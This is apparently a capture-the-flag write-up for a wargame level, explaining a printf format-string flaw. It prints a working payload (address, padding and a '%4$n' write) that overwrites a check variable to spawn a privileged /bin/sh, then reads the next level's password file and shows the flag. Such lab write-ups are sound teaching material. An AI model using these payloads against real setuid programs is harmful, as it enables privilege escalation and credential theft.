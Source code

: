 This time there is no possible buffer overflow because fgets() is used instead of gets() (there is a specified buffer size)
There is a /bin/sh call but it is skipped by a hardcoded numerical comparison. obj.m (which is 0) is compared to 0x40 (64)
We need to find a way to eithe avoid this comparison or make it true
The input is used for printf, this opens some vulnerabilities
%n format will write the number of printed characters at the address specified in the parameter
additionally we can use the 1$ modifier to specify which parameter to use
each parameter has 4bytes and they are read in succession in the stack, and because printf takes an undefined number of parameters, we can use the 1$ modifier to go as high up as we want in the stack
We can write the address of obj.m in our buffer, pad it to have 64 characters, include %n format and specify a parameter number that will point to the address of obj.m in our buffer
This will write 64, make the comparison true, and run /bin/sh with the binary elevated permissions

address of obj.m + padding to have 64 characters + 4th arg on stack is the buffer
python -c "print '\x08\x04\x98\x8c'[::-1] + 60 * 'a' + '%4\$n'" > /tmp/inj3
cat /tmp/inj3 - | ./level3

cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
